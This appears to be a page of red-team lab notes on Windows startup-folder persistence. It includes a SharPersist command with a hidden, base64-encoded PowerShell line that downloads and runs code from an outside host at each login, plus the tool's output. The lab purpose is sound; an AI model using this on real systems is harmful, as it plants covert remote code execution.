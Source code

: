 Applications, files and shortcuts within a user's startup folder are launched automatically when they first log in. It's commonly used to bootstrap the user's home environment (set wallpapers, shortcut's etc).

```shell
beacon> execute-assembly C:\Tools\SharPersist\SharPersist\bin\Debug\SharPersist.exe -t startupfolder -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden -enc SQBFAFgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACIAaAB0AHQAcAA6AC8ALwAxADAALgAxADAALgA1AC4AMQAyADAALwBhACIAKQApAA==" -f "UserEnvSetup" -m add

[*] INFO: Adding startup folder persistence
[*] INFO: Command: C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
[*] INFO: Command Args: -nop -w hidden -enc SQBFAFgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACIAaAB0AHQAcAA6AC8ALwAxADAALgAxADAALgA1AC4AMQAyADAALwBhACIAKQApAA==
[*] INFO: File Name: UserEnvSetup
[+] SUCCESS: Startup folder persistence created
[*] INFO: LNK File located at: C:\Users\bfarmer\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\UserEnvSetup.lnk
[*] INFO: SHA256 Hash of LNK file: B34647F8D8B7CE28C1F0DA3FF444D9B7244C41370B88061472933B2607A169BC
```

Where:

-   `-f` is the filename to save as.

  

Use the **WKSTN-1** console to check `C:\Users\bfarmer\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\` for the file that was dropped. To test it, simply double-click the link file to run or reboot the VM.
